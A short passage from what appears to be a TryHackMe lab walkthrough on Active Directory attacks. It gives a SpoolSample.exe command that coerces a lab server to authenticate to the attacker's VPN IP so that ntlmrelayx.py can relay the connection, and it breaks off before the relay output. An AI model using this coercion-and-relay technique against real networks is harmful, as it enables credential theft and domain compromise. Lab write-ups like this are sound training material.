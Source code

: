 ![Pasted image 20250527132001.png](../../../IMAGES/Pasted%20image%2020250527132001.png)

As seen, the servers started and are waiting for connections, let's proceed then, in our ssh session we need to do:

```
C:\Tools\SpoolSample.exe THMSERVER2.za.tryhackme.loc "VPN_IP"
```

![Pasted image 20250527132328.png](../../../IMAGES/Pasted%20image%2020250527132328.png)

If we check our `ntlmrelayx.py` script:
